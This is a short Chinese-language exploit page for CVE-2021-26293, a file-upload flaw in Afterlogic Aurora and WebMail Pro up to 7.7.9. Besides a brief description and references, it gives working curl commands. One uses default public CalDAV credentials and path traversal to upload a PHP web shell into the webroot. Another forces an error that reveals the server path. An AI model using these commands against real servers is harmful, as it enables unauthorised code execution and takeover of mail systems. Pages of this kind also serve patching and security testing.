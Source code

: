 # Afterlogic Aurora & WebMail Pro 文件上传漏洞 CVE-2021-26293

# Afterlogic Aurora & WebMail Pro 文件上传漏洞 CVE-2021-26293

## 漏洞描述

该漏洞是由于Afterlogic Aurora & WebMail Pro中对上传的文件过滤和限制存在缺陷，攻击者可以通过上传恶意文件，从而执行任意代码。

参考链接：

- http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-26293
- https://github.com/E3SEC/AfterLogic/blob/main/CVE-2021-26293-rce-via-public-unrestricted-file-upload-vulnerability.md
- https://forum.ywhack.com/thread-115325-1-8.html

## 漏洞影响

```
WebMail Pro ≤ 7.7.9
Afterlogic Aurora ≤ 7.7.9
```

## 漏洞复现

```bash
curl -T shell.php -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/persona/%2e%2e/%2e%2e//%2e%2e//%2e%2e/data//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e//%2e%2e/var/www/html/shell.php"
```

默认路径为/var/www/html，也可能更改配置为其它路径，可以尝试其它方式获取。


```bash
curl -X DELETE -u 'caldav_public_user@localhost:caldav_public_user' "https://sample-mail.tld/dav/server.php/files/personal/GIVE_ME_ERROR_TO_GET_DOC_ROOT_2021"
//使用无效路径获取SabreDAV错误查看Webroot路径
```


